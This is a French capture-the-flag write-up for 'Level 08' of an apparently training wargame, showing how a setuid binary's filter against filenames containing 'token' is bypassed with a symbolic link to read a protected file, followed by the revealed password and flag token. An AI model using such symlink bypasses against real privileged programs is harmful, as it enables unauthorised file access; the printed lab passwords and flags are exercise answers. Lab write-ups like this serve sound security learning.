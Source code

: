 # Level 08

Cette fois-ci `level08` à 2 fichier, un binaire `level08` et un fichier `token`.

```shell
~ ls -la
total 28
[...]
-rwsr-s---+ 1 flag08  level08 8617 Mar  5  2016 level08
-rw-------  1 flag08  flag08    26 Mar  5  2016 token
```

Nous n'avons pas les droits pour lire le fichier `token`, mais nous pouvons lancé `level08` avec les droits de `flag08`.

Comme d'habitude on décompile `level08`

![Pseudo Code c du binaire level08](../../assets/level08-code-c.png)

On peux voir qu'il ouvre un fichier, le lis et l'écrit sur l'entrée standart tant que le nom du fichier ne contient pas `token`

Pour pouvoir lire le fichier `token` avec le binaire `level08` sans avoir d'erreur il nous suffit de faire un lien symbolique.

```shell
~ ln -s /home/user/level08/token /tmp/link
~ ./level08 /tmp/link
quif5eloekouj29ke0vouxean
~ su flag08
Password:
Don\'t forget to launch getflag !
~ getflag
Check flag.Here is your token : 25749xKZ8L7DkSCwJkT9dyv6f
```

